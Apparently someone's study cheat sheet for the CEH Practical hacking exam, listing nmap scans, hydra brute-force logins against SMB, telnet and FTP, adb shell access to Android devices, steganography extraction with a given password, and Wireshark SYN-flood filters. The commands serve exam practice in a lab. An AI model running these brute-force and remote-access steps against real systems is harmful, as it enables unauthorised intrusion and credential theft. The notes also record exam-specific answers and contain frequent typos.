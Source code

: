 # CEH PRACTICAL
1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

9 PRIVILEGE ESCALATION
* 

10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

12 SQL injection PASSWORD
* 
